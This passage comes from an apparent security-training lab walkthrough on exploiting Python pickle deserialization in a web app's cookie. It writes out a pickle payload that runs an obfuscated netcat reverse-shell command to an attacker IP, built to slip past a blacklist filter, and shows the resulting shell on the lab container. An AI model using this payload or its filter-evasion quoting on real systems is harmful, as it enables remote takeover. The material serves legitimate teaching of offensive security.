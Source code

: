 With this in mind, we can update `exploit-rce.py` to contain our payload, which should bypass the blacklist filter and give us a reverse shell.

```python
...
class RCE:
    def __reduce__(self):
        return os.system, ("n''c -nv 172.17.0.1 9999 -e /bin/s''h",)
...

```

Running the file gives us the base64-encoded value:

```shell
python3 exploit-rce.py

gASVLwAAAAAAAACMBXBvc2l4lIwGc3lzdGVt...SNIP...SFlFKULg==

```

We can start a Netcat listener locally, and then paste the value from above into cookie value and reload the page to receive a reverse shell:

```shell
nc -nvlp 9999

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:32823.
ls -l
total 56
-rw-r--r--    1 root     root           184 Oct 11 12:55 Dockerfile
drwxr-xr-x    1 root     root          4096 Oct 11 13:10 __pycache__
-rw-r--r--    1 root     root          2038 Oct 11 12:57 app.py
-rw-r--r--    1 root     root            37 Oct 10 16:51 flag.txt
-rw-r--r--    1 root     root         20480 Oct 11 13:10 htbooks.sqlite3
-rw-r--r--    1 root     root            27 Oct 11 12:59 requirements.txt
drwxr-xr-x    4 root     root          4096 Oct 10 16:51 static
drwxr-xr-x    2 root     root          4096 Oct 10 16:51 templates
drwxr-xr-x    1 root     root          4096 Oct 10 16:51 util

```

Note that using this cookie value with result in an `Internal Server Error` since we are not passing a legitimate `util.auth.Session` object to `util.auth.cookieToSession`, but the command still ran, so it is alright in our case.

![](https://academy.hackthebox.com/storage/modules/169/3/8-error500.png)


# Tools of the Trade (Python Deserialization)
